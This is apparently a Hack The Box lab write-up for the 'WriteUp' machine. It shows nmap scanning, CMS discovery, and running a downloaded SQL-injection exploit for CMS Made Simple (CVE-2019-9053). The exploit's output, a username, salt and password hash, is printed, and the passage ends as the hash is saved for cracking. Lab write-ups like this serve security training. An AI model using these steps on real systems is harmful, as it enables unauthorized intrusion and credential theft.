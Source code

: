 ## --------->> WriteUp <<-----------

// We start with nmap scan

    $ nmap -sV -A -Pn 10.10.10.138 -p-
----

    Nmap scan report for 10.10.10.138
    Host is up (0.17s latency).
    Not shown: 65533 filtered ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
    |   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
    |_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
    80/tcp open  http    Apache httpd 2.4.25 ((Debian))
    | http-robots.txt: 1 disallowed entry 
    |_/writeup/
    |_http-server-header: Apache/2.4.25 (Debian)
    |_http-title: Nothing here yet.
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
// navigating to http://10.10.10.138/

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/WriteUp/1.png)

// When tried to search for any directories in http://10.10.10.138/ with gobuster and dirsearch

// I had Errors, what means this site is protected as written in the site

// So, i tried to approach other way and navigate http://10.10.10.138/robots.txt 

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/WriteUp/2.png)

// There is mention of another directory '/writeup/'

// Navigating to http://10.10.10.138/writeup/

// Its seems like some writeups for HTB

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/WriteUp/3.png)

// Nothing special in the directories inside

// But, somthing Strange that cougth my eye waz the strange COOKIE (usually PESSID and here CMSSESSID)

    CMSSESSID9d372ef93962:"1nreh2bl6g859iaq65c12iqjb1"

// Lets use Tool wappalyzer - CMS finder

// for download the tool first need npm installer

    $ apt install npm

// then install wappalyzer tool

    $ npm i -g wappalyzer

// Now lets scan the CMS

    $ wappalyzer http://10.10.10.138/writeup/ | jq
    
// found cms !

    cms made simple
    
// Search exploit db cms made simple 2019    

// found python exploit for CVE:2019-9053, lets try him

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/WriteUp/4.png)

// Download the explot

    $ wget https://www.exploit-db.com/download/46635

// Run the exploit (work ONLY with python2)

    $ python 46635 -u http://10.10.10.138/writeup/
-----

    [+] Salt for password found: 5a599ef579066807
    [+] Username found: jkr
    [+] Email found: jkr@writeup.htb
    [+] Password found: 62def4866937f08cc13bab43bb14e6f7


// somehow i have decrypted the hash woithout the salt in ![here](https://hashtoolkit.com/generate-hash/?text=salt)

![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/WriteUp/5.png)

// save the salted hash

    $ echo '62def4866937f08cc13bab43bb14e6f7:5a599ef579066807' > hash

    
